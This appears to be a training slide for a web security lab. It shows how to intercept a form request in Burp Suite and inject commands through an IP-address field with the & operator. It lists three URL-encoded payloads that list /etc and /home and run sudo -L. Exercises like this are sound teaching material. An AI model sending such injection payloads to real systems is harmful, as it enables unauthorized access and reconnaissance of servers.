

# Loud Pipes Review #2
Launch Burp Suite. Send an IP address through the form; intercept the request; and send it to Repeater. Use Repeater and the & operator to:
List the contents of /etc
List the contents of /home
Print the commands you can run with sudo (sudo -L)

# List the contents of `/etc`
ip=8.8.8.8%20%26%20ls%20/etc&Submit=submit
# List the contents of `/home`
ip=8.8.8.8%20%26%20ls%20/home&Submit=submit
# Print the commands you can run with `sudo` (`sudo -L`)
ip=8.8.8.8%20%26sudo%20-L&Submit=submit